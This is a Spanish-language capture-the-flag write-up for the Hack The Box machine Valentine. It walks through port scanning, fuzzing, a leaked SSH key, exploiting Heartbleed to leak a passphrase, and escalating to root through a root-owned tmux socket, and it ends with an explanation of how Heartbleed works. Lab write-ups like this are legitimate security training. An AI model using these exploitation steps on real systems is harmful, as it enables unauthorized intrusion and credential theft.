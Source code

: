 10.10.10.79 - Valentine

![Valentine](https://user-images.githubusercontent.com/96772264/200539654-bb1d344a-5494-413c-a468-bcbf9b5940a1.png)

--------------

1. Escaneo de puertos:
```console
└─$ nmap -sCV -T5 10.10.10.79 -Pn -v
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
22/tcp    open     ssh            OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open     http           Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open     ssl/http       Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
|_http-server-header: Apache/2.2.22 (Ubuntu)
└─$ whatweb http://10.10.10.79
http://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
└─$ whatweb https://10.10.10.79
https://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```
La peticion por el puerto 443 da error, pero el escaneo reporta que la web se llama Valentine.htb, asi que se añade al /etc/hosts la linea
```10.10.10.79	valentine.htb```
La web tiene una foto:
![Captura](https://user-images.githubusercontent.com/96772264/200539814-b265a913-3729-4f6c-a6d3-c16224df9d69.PNG)

```console
└─$ curl http://valentine.htb/omg.jpg -O 
└─$ exiftool ./omg.jpg
```
Los metadatos no dicen nada interesante.
Disponemos a hacer fuzzing:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.79/FUZZ/
000000001:   200        1 L      2 W        38 Ch       "index"   # -> Lo mismo que la web en sí.                
000000820:   301        9 L      28 W       308 Ch      "dev"                 
000023098:   200        27 L     54 W       554 Ch      "encode"                                             
000024229:   200        25 L     54 W       552 Ch      "decode"                                             
000029887:   200        619 L    5759 W     145482 Ch   "omg"     # -> la foto
```
Si hago fuzzing por extension php me sale tambien /index /decode y /encode. El fuzzing por subdominios no da resultados.

**/dev** nos da directory listing, hay dos archivos notes.txt y hype.key
Hype.key es un archivo en hexadecimal (un monton de bytes)
```console
└─$ cat hype.key | xxd -ps -r
```
Encontramos una llave privada (supongo que para hacer ssh).
/encode y /decode nos codifica texto en base 64, o sea hace el comando ```echo "input" | base64 -w0```, es decir le pasa comandos al sistema. 
Pero la prueba ```test; whoami``` no funciona.

![valentine2](https://user-images.githubusercontent.com/96772264/200540275-ceb473e0-5c78-4abb-8c58-1959c0da55dc.PNG)

La id_rsa le damos los permisos 
```console
└─$ chmod 600 ./id_rsa   
└─$ ssh -i id_rsa 10.10.10.79
Enter passphrase for key 'id_rsa': 
```
No tenemos la contraseña pero se pued intentar crackear la llave:
```console
└─$ python3 /usr/share/john/ssh2john.py id_rsa > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
```
Pero no obtenemos contraseña, tiramos de nmap para que nos busque vulnerabilidades.
```console
└─$ nmap -T5 10.10.10.79 -script vuln  
| ssl-heartbleed: VULNERABLE:
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
State: VULNERABLE Risk factor: High
OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```
Nos hablan de la vulnerabilidad HEARTBLEED 
```console
└─$ searchsploit -m multiple/remote/32764.py
└─$ python2 32764.py 10.10.10.79 -p443 | tee archivo.txt
```
Este exploit no me ha sacado nada interesante, pero he encontrado otro:
```https://github.com/mpgn/heartbleed-PoC```
```console
└─$ python2 heartbleed-exploit.py 10.10.10.79
└─$ cat out.txt | xxd -r
```
Nada interesante.
A la segunda vez nos leakea esto: ```$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=``` Como la cadena son letras, 
numeros y un "=" suponemos que es base64
```console
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=" | base64  -d
heartbleedbelievethehype
```
Parece la contraseña de ssh, el asunto es que ha sido un base64 porque supongo que el creador de la ma quinahabra utilizado su porpia herramienta /decode para
"cifrar" la contraseña.
Como la llave era hype_key, podemos entrar con ese usuario:
```console
└─$ ssh -i id_rsa hype@10.10.10.79;
```
La enumeracion con mi script dice que:
- No hay SUIDS criticos ni capabilities.  
- Este archivo .conf tiene permiso de escritura: ```/home/hype/.config/Trolltech.conf```  
- Ha hecho varios comandos de TMUX (socketfiles) como ```tmux -S /.devs/dev_sess```  
- En la ruta /var/www esta el codigo php de la web (decode, encode y demas)  

```console
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 10 23:23 /.devs/dev_sess
hype@Valentine:~$ export TERM=xterm
hype@Valentine:~$ export SHELL=bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
Como el socket_file es de root (archivo que guarda una session en la consola Tmux) se puede reanudar,
teniendo esa consola de root. 

--------------------------------------------

## Heartbleed

"Corazon sangrante" es una vulnerabilidad que afecta a "OpenSSl 1.0.1 a 1.0.1f"  
Los Cetificados SSL están creados para encriptar las conexiones del protocolo https (por lo que la data que se envia se hace ilegible (encriptada)).    
Paralelamente a esta conexion esta el HEARTBEAT, un reconocimiento que hace el cliente con el servidor para decirle que la conexion sigue abierta: le dice una
palabra y le pide que se la repita (y como esto no es confidencial no se encripta)  

han llamado "Latido de corazon" porque son dos golpes (pregunta-respuesta)  
Heartbeat normal (latido):   
```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (6letras)".
servidor: "PATATA"
```
El problema con Heartbleed esque le podemos decir que la respuesta sea mas larga que lo esperado.  

```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (600letras)".
servidor: "PATATA, pero como me has pedido 600 letras te contare muchas cosas interesantes más"```
```
Aqui se leakea los datos de la conexion https pero sin encriptar (ya que estos se guardan en la memoria y le hemos hecho sangrar esta misma con la respuesta 
MAS LARGA DE LO NORMAL)
Leyendo el exploit, nos dice que una peticion HEARTBEAT es tal que asi:
```
HEADERS:
18 -> Numero que indica que esto es un paquete Heartbeat
03 02 -> version TLS
00 03 -> tamaño (no se de que, supongo que la peticion?)
01 -> peticion de que nos hagan un heartbeat
40 00 -> tamaño de la respuesta que queremos (en decimal, paquetes de 16 384 bytes) 
PAYLOAD: "hello" # -> la palabra que nos tiene que repetir
```



